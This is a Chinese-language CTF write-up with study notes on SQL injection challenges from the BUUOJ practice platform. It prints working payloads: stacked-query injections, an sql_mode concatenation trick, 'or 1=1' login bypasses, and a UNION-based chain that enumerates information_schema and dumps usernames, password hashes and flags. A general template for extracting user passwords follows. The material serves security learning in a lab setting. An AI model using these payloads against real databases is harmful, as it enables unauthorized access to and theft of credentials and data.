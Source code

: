 ## 1. [[SUCTF 2019]EasySQL 1](https://buuoj.cn/challenges#[SUCTF%202019]EasySQL)

- 尝试了字符型、数字型注入，无果。

- 使用burpsuite 进行爆破。

  使用 simple list 中的 sql 注入清单进行测试。[intruder用法](https://t0data.gitbooks.io/burpsuite/content/chapter8.html)

  手工测试发现输入数字后都会出现（有wp说这种输出都是 `var_dump()` 函数输出的结果）。

  发现过滤了很多关键字，类似 delete、update等。结果出现 Too long，Nonono 、或者什么都没有显示。

    ![](imgs/3-4-waf.png)

    ![](imgs/3-1-long.png)

  输入数字 1 时候的回显：
  
  ```
  Array([0]= > 1)
  ```
  
  总结一下就是：
  
  - 输入字符串：无回显，过滤了 flag 、update、 and 等关键字。 
  - 输入数字：会有输出查询结果数组
  - 输入过长：会报错 too long

搜索 wp，说原题是由[源码](https://github.com/team-su/SUCTF-2019/tree/master/Web/easy_sql)泄露的，但这题没有??或者我没有找到。。

假装已经有原始 sql 语句了。🐷

```sql
$sql = "select ".$post['query']."||flag from Flag";
```

- 堆叠注入

可以查询到相关的表 Flag，ctf 关键字被过滤了。

```sql
1;show databases;#
Array ( [0] => 1 ) Array ( [0] => ctf ) Array ( [0] => ctftraining ) Array ( [0] => information_schema ) Array ( [0] => mysql ) Array ( [0] => performance_schema ) Array ( [0] => test ) 

1;use ctftraining ;show tables;#
Array ( [0] => 1 ) Array ( [0] => FLAG_TABLE ) Array ( [0] => news ) Array ( [0] => users ) 

1;use ctf;show tables;#
Array ( [0] => 1 ) Array ( [0] => Flag ) 

1;use ctf;show tables;select * from Flag #
Nonono.
```

> 知识点：
>
> - sql_mode
>
>   通过设置 sql_mode 为宽松或者严格，完成不同严格程度的数据校验、不同数据库之间进行迁移等工作。
>
>   - PIPES_AS_CONCAT（为什么会有这么奇妙的设置？）
>
>     将"||"视为字符串的连接操作符而非或运算符，这和Oracle数据库是一样的，也和字符串的拼接函数Concat相类似

- 法1

  mysql 默认 `||` 符号按 或处理。

```sql
*,1
# 相当于
sql="select *,1 || flag from Flag";
```

没有过滤 * 号，这条就把数据库内容都查询了出来，然后把 1 查询出来。

![](imgs/3-1-flag.png)

- 法2

```sql
1;set sql_mode=pipes_as_concat;select 1
select 1;set sql_mode=pipes_as_concat;select 1||flag from Flag
```

首先查询了 1，接着把 `||` 按照拼接字符功能处理，把数据 1 和 flag列 拼接输出。 (todo最好做实验验证一下)

![](imgs/3-2-flag.png)

## [2. 极客大挑战 2019 EasySQL 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]EasySQL)

sql 注入出现在查询语句中

```bash
' or '1' = '1
```

报错，不是字符型

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

```
' or 1=1 -- '
' or 1=1#
```

> `#`和`--`的区别就是：`#`后面直接加注释内容，而`--`的第 2 个破折号后需要跟一个空格符在加注释内容。

数字型注入可以，得到flag{6e0397f6-6059-41d8-b6c6-305094c1cc16}

## [3. 极客大挑战 2019LoveSQL](https://buuoj.cn/challenges#%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019%5DLoveSQL) 未完成

> 因为浏览器不会自动把 # 符号自动编码，所以需要改成 %23（URL编码）

判断回显点

```bash
# 判断回显点位
/check.php?username=1' union select 1,2,3%23&password=1  
# 查询有哪些表
/check.php?username=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1
# geekuser,l0ve1ysq1

# 查询geekuser有哪些字段
/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='geekuser'%23&password=1
# id,username,password

# 查询l0ve1ysq1有哪些字段
/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1

# 查询geekuser表数据
/check.php?username=1' union select 1,2,group_concat(id,username,password) from geekuser%23&password=1
# 1admin59598f210812a58844a52fcf4e1714ba

# 查询l0ve1ysq1表数据
/check.php?username=1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23&password=1
# flag{9add47d1-8d6a-4b04-b78a-7143104192e6}
```

## 查询模板

在 SQL注入的 payload 里，和 UNION 一起出现的经常是 INFORMATION_SCHEMA

**INFORMATION_SCHEMA** 提供了对数据库元数据的访问，包括 MySQL服务器信息，如数据库或表的名称，列的数据类型，访问权限等

所以在验证存在SQL注入漏洞后，可以使用 UNION 语句查询 INFORMATION_SCHEMA 内的数据，获得其他有用的线索（比如所有数据库名及表名等），用于下一步注入攻击

---

查询当前数据库中所有的表

```
select * from Product union select group_concat(table_name),2 
from information_schema.tables where table_schema=database();
```

查询User表中有哪些字段

```
select * from Product union select group_concat(column_name),2 
from information_schema.columns where table_name='User';
```

查询User表中某用户的密码

```
select * from Product union select password,2 
from User where user_id = 1;
```

## SQL 注入练习题

- [[SUCTF 2019]EasySQL 1](https://buuoj.cn/challenges#[SUCTF%202019]EasySQL)
- [[极客大挑战 2019]BabySQL 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]BabySQL)

- [[极客大挑战 2019]HardSQL 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]HardSQL)

- [[极客大挑战 2019]FinalSQL 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]FinalSQL)

## 参考

- [SUCTF 2019EasySQL ](http://www.xianxianlabs.com/blog/2020/05/27/355.html)

